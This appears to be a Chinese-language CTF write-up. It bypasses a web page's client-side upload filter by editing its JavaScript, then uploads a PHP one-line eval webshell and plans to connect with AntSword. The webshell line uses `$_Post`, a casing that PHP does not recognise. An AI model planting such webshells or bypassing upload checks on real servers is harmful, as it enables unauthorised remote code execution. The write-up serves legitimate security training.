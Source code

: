 # update1

## 解题思路：

- 首先打开网页，发现一个窗口，让我们上传文件，那我们先打开开发者页面看看里面的元素。

- 看到元素里面有一个js脚本，代码如下：

    ```javascript
    Array.prototype.contains = function (obj) {  
        var i = this.length;  
        while (i--) {  
            if (this[i] === obj) {  
                return true;  
            }  
        }  
        return false;  
    }  

    function check(){
    upfile = document.getElementById("upfile");
    submit = document.getElementById("submit");
    name = upfile.value;
    ext = name.replace(/^.+\./,'');

    if(['jpg','png'].contains(ext)){
        submit.disabled = false;
    }else{
        submit.disabled = true;

        alert('请选择一张图片文件上传!');
    }


    }
    ```

- 读一下代码，很明显，这是用来卡我们的上传类型的，不是.jpg或者.png都不给传，一旦检测到不是这两样，直接把上传按钮给锁死，点都点不了。

- 但是转念一想，这种在网页上直接把脚本写上去的行为，不就是明摆着让人改吗？于是直接把

    ```javascript
     if(['jpg','png'].contains(ext)){
        submit.disabled = false;
    }else{
        submit.disabled = true;

        alert('请选择一张图片文件上传!');
    }
    ```
    改成

    `submit.disabled = false;`

    ok,再上传东西就没有类型限制了。

- 能上传了，要怎么用呢？我查看了黄老师提供的中国菜刀的链接，但是不知道为什么，那个链接里的release全部清空了，于是只好找蚁剑。

- 到这里其实思路已经很明确了，我构造了一个php一句话木马：

    ```php
    <?php @eval($_Post[cmd]);?>
    ```

    并将这个木马成功传到了服务器上：

    ```html
    upload success : upload/1579691533.test.php
    <!Doctype html>
    <html>
    <head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />

    <script type="text/javascript">
    ```

- 接下来就是用工具链接服务器了，但是我在下载蚁剑时发现，无法在linux上使用，所以准备下载一个windows镜像，尝试在windows虚拟机里使用。